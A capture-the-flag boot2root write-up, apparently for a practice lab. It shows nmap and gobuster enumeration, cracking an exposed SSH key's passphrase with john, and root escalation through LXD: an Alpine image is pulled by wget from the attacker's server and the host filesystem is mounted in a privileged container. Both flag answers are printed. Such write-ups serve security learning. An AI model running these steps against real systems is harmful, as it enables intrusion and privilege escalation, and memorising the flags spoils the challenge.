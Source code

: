 
# Task 1 Boot2Root
## What is the user flag?
- Let's begin by performing an `nmap` scan against the target.
```
$ nmap -sC -sV 10.10.223.2
Starting Nmap 7.92 ( https://nmap.org ) at 2023-12-16 09:38 IST
Nmap scan report for 10.10.223.2
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: House of danak
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.40 seconds
```

| Port | Service |
| ---- | ------- |
| 22   | ssh     |
| 80   | http    |

- Let's visit the website through the browser.
![[2 110.png]]
- There's really nothing of importance here.
- Using `CTRL+U` we can view the source page.
![[3 88.png]]
- So we know that there is a user called `john`.
- We can use `gobuster` to find other web pages that might be useful.
```
$ gobuster dir -u http://10.10.223.2 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.223.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/index.html           (Status: 200) [Size: 2762]
/robots.txt           (Status: 200) [Size: 33]
/secret               (Status: 301) [Size: 311] [--> http://10.10.223.2/secret/]
/server-status        (Status: 403) [Size: 276]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.223.2/uploads/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
- The `/secret` page seems interesting, let's go there.
![[3 87.png]]
- Let's get the `secretKey`.
![[5 59.png]]
- It seems to be the private key of the `john` user we saw before.
- We can use `ssh2john` to create a hash file.
```
$ ssh2john secretKey > secretKey_hash 
```
- Now we can use `john` to crack the hashes.
```
$ john secretKey_hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (secretKey)     
1g 0:00:00:00 DONE (2023-12-16 10:01) 4.347g/s 2295p/s 2295c/s 2295C/s stupid..red123
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
- Let's change the permissions of the `secretKey`.
```
$ chmod 600 secretKey
$ ls -l
total 8
-rw------- 1 kunal kunal 1766 Dec 16 10:03 secretKey
-rw-r--r-- 1 kunal kunal 2461 Dec 16 10:00 secretKey_hash
```
- Now we are all set to login through SSH as the `john` user.
```
$ ssh -i secretKey john@10.10.223.2
Enter passphrase for key 'secretKey': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Dec 16 04:34:22 UTC 2023

  System load:  0.0               Processes:           97
  Usage of /:   41.1% of 9.78GB   Users logged in:     0
  Memory usage: 32%               IP address for eth0: 10.10.223.2
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10
john@exploitable:~$ 
```
- We can now read the user flag.
```
john@exploitable:~$ cat user.txt 
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e
```
## Answer
```
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e
```
##
## What is the root flag?
- Let's check what groups `john` is a part of.
```
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```
- On searching for a while we can find the following article that explains how to escalate the root privilege by exploiting the features of LXD.
### Commands to be run on the attacker machine:
```
$ git clone  https://github.com/saghul/lxd-alpine-builder.git
$ cd lxd-alpine-builder
$ sudo ./build-alpine
$ python3 -m http.server
```
### Commands to be run on the target machine:
```
john@exploitable:/tmp$ wget http://10.17.48.138:8000/alpine-v3.19-x86_64-20231216_1041.tar.gz
--2023-12-16 05:12:53--  http://10.17.48.138:8000/alpine-v3.19-x86_64-20231216_1041.tar.gz
Connecting to 10.17.48.138:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3646460 (3.5M) [application/gzip]
Saving to: ‘alpine-v3.19-x86_64-20231216_1041.tar.gz’

alpine-v3.19-x86_64-20231216_1041.tar.gz                   100%[========================================================================================================================================>]   3.48M   490KB/s    in 8.7s    

2023-12-16 05:13:02 (410 KB/s) - ‘alpine-v3.19-x86_64-20231216_1041.tar.gz’ saved [3646460/3646460]

john@exploitable:/tmp$ lxc image import alpine-v3.19-x86_64-20231216_1041.tar.gz --alias myimage
Image imported with fingerprint: 8d217b63453d877763142d3cfdf5bb25ad94c2ef132da82eab9c314fc5f74741
john@exploitable:/tmp$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| myimage | 8d217b63453d | no     | alpine v3.19 (20231216_10:41) | x86_64 | 3.48MB | Dec 16, 2023 at 5:16am (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
john@exploitable:/tmp$ lxc init myimage ignite -c security.privileged=true
Creating ignite
john@exploitable:/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
john@exploitable:/tmp$ lxc start ignite
john@exploitable:/tmp$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)
```
- We can now locate the `root.txt` file using the `find` command.
```
~ # find / -type f -name root.txt 2>/dev/null
/mnt/root/root/root.txt
```
- Let's get the root flag.
```
~ # cat /mnt/root/root/root.txt
2e337b8c9f3aff0c2b3e8d4e6a7c88fc
```
## Answer
```
2e337b8c9f3aff0c2b3e8d4e6a7c88fc
```